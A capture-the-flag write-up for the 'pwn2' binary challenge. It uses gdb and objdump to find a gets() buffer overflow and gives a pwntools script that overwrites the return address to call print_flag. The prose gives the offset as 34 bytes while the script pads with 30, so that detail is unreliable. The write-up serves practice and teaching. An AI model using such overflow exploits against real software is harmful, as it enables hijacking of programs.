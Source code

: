 ## pwn2
#### Standard for all pwn challenges - we start a simple reconnaisance by using checksec
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### We get the same properties such as the previous pwn challenge. Starting the binary, we get a prompt which asks us which function to call:
```
$ ./pwn2
    Which function would you like to call?
```
#### It waits for user input, and if the user enters a valid function name, it executes that function, else it exits. But we don't really know which functions to call, so we fire up gdb and look at the disassembly of the binary.
```
$ gdb ./pwn2
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x0000080d <+49>:	add    esp,0x10
       0x00000810 <+52>:	sub    esp,0xc
       0x00000813 <+55>:	lea    eax,[ebx-0x1670]
       0x00000819 <+61>:	push   eax
       0x0000081a <+62>:	call   0x500 <puts@plt>
       0x0000081f <+67>:	add    esp,0x10
       0x00000822 <+70>:	sub    esp,0xc
       0x00000825 <+73>:	lea    eax,[ebp-0x27]
       0x00000828 <+76>:	push   eax
       0x00000829 <+77>:	call   0x4e0 <gets@plt>
       0x0000082e <+82>:	add    esp,0x10
       0x00000831 <+85>:	sub    esp,0xc
       0x00000834 <+88>:	lea    eax,[ebp-0x27]
       0x00000837 <+91>:	push   eax
       0x00000838 <+92>:	call   0x77f <select_func>
       [...]
```
#### Interestingly enough, a ```gets``` call is executed to ask for the user input, which can be the entry point for our exploit. But another function to take note of is ```select_func``` which uses the buffer at ```[ebp-0x27]``` as the argument. Let's have a look at all the functions in the binary so we know what options are available for us to choose from:
```
gdb-peda$ info functions
    [...]
    0x000006ad  two
    0x000006d8  print_flag
    0x00000754  one
    0x0000077f  select_func
    0x000007dc  main
    [...]
```
#### We see the functions main and select func, which we already know by disassembling the main function of the binary. And we see the interesting functions, one, two, and print_flag: if we try to input these options in the prompt, maybe it'll give us the flag of the challenge.
```
$ ./pwn2
Which function would you like to call?
one
This is function one!

$ ./pwn2
two

$ ./pwn2
print_flag
```
#### Sadly, we get nothing out of it. We do want to be able to execute the print_flag function tho, as we know it prints the flag for us. Remember that the input uses ```gets``` to get user input? We can utilize that vulnerability to perform a buffer overflow into overwriting the ```eip``` register to point to the address of the ```print_flag``` function. Before we do that, we need to know the address of the function. We can do that using *objdump*:
```
$ objdump -M intel -d pwn2 | grep print_flag
    000006d8 <print_flag>:
        [...]
```
#### We take a note that ```print_flag```'s address is at ```0x000006d8```. Next thing we need to know is the exact size of the buffer to trigger the segmentation fault. Though the buffer is stored at address ```[ebp-0x27]``` which has a size of 39, the exact offset to overflow the buffer and overwrite the eip register is at offset 34. We can now create a short exploit script and send the result to the server to get the flag.
#### exploit.py
```
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4322
conn = remote(HOST, PORT)

#: Exploit code
offset = 'A' * 30
eip = p32(0x000006d8)
exploit = offset + eip

#: Send data
print(conn.recvline())
conn.sendline(exploit)
print(conn.recvline())
print(conn.recvline())
```
### And the script returns us the flag!
```
$ python exploit.py

    Which function would you like to call?

    This function is still under development.

    gigem{4ll_17_74k35_15_0n3}
```
